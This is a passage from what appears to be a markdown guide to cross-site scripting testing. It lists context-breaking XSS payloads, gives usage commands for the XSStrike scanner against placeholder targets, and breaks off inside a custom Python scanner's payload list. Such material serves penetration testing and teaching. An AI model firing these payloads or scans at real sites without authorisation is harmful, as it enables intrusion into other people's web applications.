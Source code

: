 ```html
</script><script>alert('XSS')</script>

<!-- CSS context -->
</style><script>alert('XSS')</script>
expression(alert('XSS'))
```

### 2. 🤖 Automated Detection

#### XSStrike - Advanced XSS Scanner
```bash
# Installation
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip3 install -r requirements.txt

# Basic usage
python3 xsstrike.py -u "https://target.com/search.php?q=test"

# POST request testing
python3 xsstrike.py -u "https://target.com/login.php" --data "username=admin&password=test"

# Custom headers
python3 xsstrike.py -u "https://target.com/api" --headers "Authorization: Bearer token"

# Crawling mode
python3 xsstrike.py -u "https://target.com" --crawl

# Advanced options
python3 xsstrike.py -u "https://target.com/search.php?q=test" --fuzzer --blind --skip-dom
```

#### Custom XSS Detection Script
```python
#!/usr/bin/env python3
"""
Advanced XSS Detection Tool

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import requests
import re
from urllib.parse import urljoin, urlparse
from bs4 import BeautifulSoup
import random
import string

class XSSScanner:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.vulnerabilities = []
        
        # XSS payloads for different contexts
        self.payloads = {
            'basic': [
                '<script>alert("XSS")</script>',
                '<img src=x onerror=alert("XSS")>',
                '<svg onload=alert("XSS")>',
                '"><script>alert("XSS")</script>',
                "'><script>alert('XSS')</script>",
```